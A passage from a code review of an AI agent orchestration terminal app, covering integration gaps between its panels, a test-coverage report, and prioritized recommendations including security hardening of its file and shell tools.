### Gap 1: Canvas ↔ Session ↔ Agents — No Integration

The three main panels are completely independent. There is no shared state, no event bus, and no callbacks between them.



**Missing glue code**:
- `Canvas.loadFromPlan(plan: Plan)` — populate blocks and wires from `af-plan.json`
- `Canvas.serialize()` → `Plan` — save canvas to plan format
- `AgentLoop.onStatusChange(blockId, status)` — update block status badges
- `App.spawnSessionForBlock(blockId)` — open session panel for a canvas node
- Shared `AppState` observable that all panels subscribe to

---

### Gap 2: No Data Persistence



**Required**:
- `OrchestrationCanvas.serialize()` / `deserialize()` using Wave 3 `schema.ts`
- `Session.persist(path)` / `Session.load(path)` to `~/.agentfactory/sessions/<id>.json`
- `App.onExit()` save handler + `App.onStart()` restore handler

---

### Gap 3: Slash Commands Not Wired



---

### Gap 4: Hook System Limitations



---

### Gap 5: Wave 3–5 Open Ends Map



---

### Gap 6: AgentTool Missing (Wave 1 Planned)

`CommandPalette.ts` and `AgentTool.ts` are listed as Wave 1 items in `project-index.yml` but were not implemented. Both are dependencies of later waves:

- `AgentTool` — needed for `/spawn <agent>` slash command and multi-agent orchestration
- `CommandPalette` — needed for discoverability of slash commands and plan steps

---

## Component Status Matrix



---

## Test Coverage Report

### Coverage at a Glance



### What Each Test File Covers

| Test File | Tests | What it proves | Gaps |
|-----------|-------|----------------|------|
| `agent-loop.test.ts` | 4 | text streaming, turn_end, message history, AbortSignal | Hook preemption, maxTurns exceeded, API error path |
| `session.test.ts` | 6 | ordering, readonly, token count, clear | Max size eviction (feature not yet implemented) |
| `bash.test.ts` | 5 | stdout, stderr, exit codes, Zod validation | Timeout expiry (test mentioned but missing), concurrent flag |
| `read.test.ts` | 4 | happy path, missing file error, Zod validation, concurrent flag | Binary files, symlinks, large files |
| `mouse.test.ts` | 11 | all button types, modifiers, coords, motion | Malformed SGR strings, integer overflow bounds |
| `cell-buffer.test.ts` | 4 | write, boundary clip, clone, diff | Color/style inheritance, unicode chars, large buffers |
| `wire.test.ts` | 6 | L-shape, same-row, arrow terminal, no dupes | Self-loops, very long wires, overlapping wires |
| `orchestration-canvas.test.ts` | 6 | drag state machine, snap-to-grid, hit test, context menu, boundary | Overlapping blocks, wire deletion, multi-block drag |

### Priority Test Gaps

| File | Priority | Why |
|------|----------|-----|
| `hooks.ts` | 🔴 Critical | Executes shell scripts — highest risk, zero coverage |
| `tools/write.ts` | 🔴 High | Writes to filesystem — destructive, untested |
| `tools/index.ts` | 🔴 High | Core dispatch + registry — untested |
| `keyboard.ts` | 🔴 High | All key parsing — zero tests |
| `SessionPanel.ts` | 🟠 High | Core UI panel + agentLoop integration |
| `router.ts` | 🟠 High | Event dispatch correctness |
| `tools/web-fetch.ts` | 🟠 High | External HTTP calls |
| `app.ts` | 🟠 Medium | Terminal lifecycle (hard to unit-test, needs integration test) |
| `doctor.ts` | 🟡 Medium | Health checks — straightforward to test |
| `Block.ts` | 🟡 Medium | Rendering logic |
| `ContextMenu.ts` | 🟡 Medium | Menu navigation |
| `layout.ts` | 🟡 Medium | Layout computation |

**Rule 7 compliance gap**: 19 source files have zero tests. Reaching 80% file coverage requires adding tests for the 11 high/medium priority files above.

---

## Recommendations

### Immediate — Security (fix before public use or multi-user deployment)

| # | Action | File | Effort |
|---|--------|------|--------|
| R1 | Add `assertSafePath()` to Read and Write tools | `tools/read.ts`, `tools/write.ts` | 1h |
| R2 | Strip ANSI escape codes from tool output before display | `SessionPanel.ts` | 30m |
| R3 | Add `path.resolve()` + prefix check to hook path builder | `hooks.ts` | 30m |
| R4 | Replace `HOOK_CTX` env var with stdin pipe | `hooks.ts` | 2h |
| R5 | Yield `error` event on `JSON.parse` failure | `agent-loop.ts` | 30m |
| R6 | Add API error redaction wrapper | `agent-loop.ts` | 1h |
| R7 | Add session history max size (e.g. 200 messages) | `session.ts` | 30m |

### Short-term — Design completeness

| # | Action | File | Effort |
|---|--------|------|--------|
| R8 | Implement shared `AppState` event bus | new `src/state/app-state.ts` | 1 day |
| R9 | Canvas `serialize()` / `deserialize()` (stub until schema.ts exists) | `OrchestrationCanvas.ts` | 4h |
| R10 | Session history persistence to `~/.agentfactory/sessions/` | `session.ts` | 4h |
| R11 | Restrict BashTool with `execFile` + command allowlist | `tools/bash.ts` | 3h |
| R12 | Hook stdout capture and structured response | `hooks.ts` | 3h |
| R13 | Two-step confirmation for ContextMenu delete actions | `ContextMenu.ts` | 1h |

### Wave 3 prerequisites (before starting orchestration)

| # | Action | Dependency |
|---|--------|-----------|
| R14 | Define and test `schema.ts` Zod schema for `af-plan.json` | Unblocks executor, planner, canvas ↔ plan bridge |
| R15 | Implement `graph.ts` topological sort with cycle detection | Reference: `open-multi-agent/src/task/index.ts` for DAG patterns |
| R16 | Canvas ↔ schema bridge: `Block[]` + `CanvasWire[]` ↔ `Plan` | Connects UI to execution engine |
| R17 | Implement `AppState` event bus before writing executor | Canvas status updates require shared state |

### Test coverage (Rule 7 — reach 80%)

| # | Test file to add | Tests to write |
|---|-----------------|----------------|
| R18 | `hooks.test.ts` | runHook with/without .sh file, PreToolUse blocking, PostToolUse passthrough, env isolation |
| R19 | `tools/write.test.ts` | file creation, directory creation, path traversal rejection (after R1) |
| R20 | `tools/index.test.ts` | registerTool, getTool, listTools, dispatch happy path, dispatch unknown tool |
| R21 | `keyboard.test.ts` | printable chars, ctrl combos, arrow keys, special keys, escape |
| R22 | `SessionPanel.test.ts` | message display, input accumulation, slash commands, streaming mock |
| R23 | `router.test.ts` | keyboard to focused panel, mouse to hit panel, no-hit pass-through |
| R24 | `tools/web-fetch.test.ts` | successful fetch, 404 handling, network error |

---

*End of review. All findings derive from static analysis of source files at commit `9dc784c` on branch `feature/ref-repos-permanent`.*
